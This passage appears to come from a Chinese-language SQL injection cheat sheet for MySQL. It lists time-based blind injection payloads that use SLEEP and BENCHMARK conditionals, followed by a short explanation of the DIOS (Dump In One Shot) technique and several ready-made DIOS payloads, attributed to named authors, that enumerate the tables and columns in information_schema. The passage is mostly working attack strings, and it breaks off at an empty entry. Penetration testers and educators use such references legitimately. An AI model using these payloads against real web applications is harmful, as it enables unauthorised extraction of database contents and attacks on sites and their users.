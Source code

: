 ### 使用条件语句

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - 一次性转储

DIOS (Dump In One Shot) SQL 注入是一种高级技术，允许攻击者在一个精心设计的 SQL 注入负载中一次性提取整个数据库内容。此方法利用了将多段数据连接成单一结果集的能力，然后从数据库中一次性返回。

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```

* SecurityIdiots

    ```sql
    make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* Profexer

    ```sql
    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
    ```

* Dr.Z3r0

    ```sql
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))
    ```

* M@dBl00d

    ```sql
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
    ```

* Zen

    ```sql
    +make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* sharik
